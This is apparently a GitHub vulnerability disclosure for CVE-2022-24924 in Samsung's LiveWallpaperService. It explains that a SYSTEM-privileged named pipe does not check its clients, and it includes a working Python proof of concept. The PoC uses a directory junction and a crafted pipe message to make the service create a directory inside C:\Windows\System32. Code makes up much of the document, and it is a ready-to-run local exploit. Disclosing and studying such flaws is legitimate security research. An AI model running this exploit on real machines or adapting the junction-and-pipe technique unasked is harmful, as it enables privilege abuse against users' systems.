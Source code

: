 # Improper access control vulnerability in LiveWallpaperService CVE-2022-24924(SVE-2021-24089)

Windows version tested: Windows 10 20H2 (Build 19042.1348) 64bit

Live Wallpaper Version: 3.0.9.0 or earlier

There is a LiveWallpaperService that works by default in Samsung laptops, but there was a vulnerability that created the SYSTEM directory in a directory with SYSTEM privileges in the SYSTEM service.

Live Wallpaper is usually installed by default on Samsung laptops, but it is also an app available from the Microsoft Store. The app can be run with User permission and communicates between the server and the client through Named PIPE IPC. At this time, the PIPE Server is operating with SYSTEM privileges and does not check which the clients are.

The following is the operation process performed when the corresponding app is launched.

Server is '33;' Upon receiving the unicode string, it accesses the 'C:\Users\{username}\AppData\Local\Packages\Sidia.LiveWallpaper_wkpx6gdq8qyz8' folder and checks the existence of the LiveWallpaperData directory. A new file system directory is created in the directory with the name 'LiveWallpaperData'.

Named PIPE is used to communicate with each other between processes. Since there is no separate client inspection, the attacker can directly open it and send the desired data.

First, after opening Named PIPE directly, create a directory junction to C:\Windows\System32 using symboliclink-testing-tools produced by james forshaw. It is created as a subdirectory of the System32 directory with privileges.

Here is the PoC for that vulnerability.

In order to perform PoC, the following conditions must be met:

1. Basically, LiveWallpaperService must be running in Windows.
2. The CreateMountPoint.exe executable file and DeleteMountPoint.exe executable file built using the symboliclink-testing-tools produced by james forshaw must exist in the same directory as the PoC.

```python
# python 3.7.2
import os
import shutil
import time
import getpass

def stringToWstring(st : str) -> str:
    result = ''
    for i in st:
        result += i+'\x00'
    return result

def main():
    # current user name
    username = getpass.getuser()

    # path settings
    path1 = f'C:\\Users\\{username}\\AppData\\Local\\Packages\\Sidia.LiveWallpaper_wkpx6gdq8qyz8'
    path2 = 'C:\\Windows\\System32'

    # delete directory
    if os.path.isdir(path1):
        shutil.rmtree(path1)

    # create directory junction
    command = f'CreateMountPoint.exe "{path1}" "{path2}"'
    os.system(command)

    # write data to named pipe
    with open('\\\\.\\pipe\\LiveWallpaperPipe', 'a') as f:
        f.write(stringToWstring('33;'))

    # IPC delay time
    time.sleep(2)

    # directory check
    if os.path.isdir(path2+'\\LiveWallpaperData'):
        print('[+] Success')
    else:
        print('[-] failed')

    # delete directory junction
    command = f'DeleteMountPoint.exe {path1}'
    os.system(command)
    shutil.rmtree(path1)

if __name__=='__main__':
    main()
```



https://user-images.githubusercontent.com/57859128/166858916-1f0b9f9a-6935-452d-8b38-18828beace0f.mp4

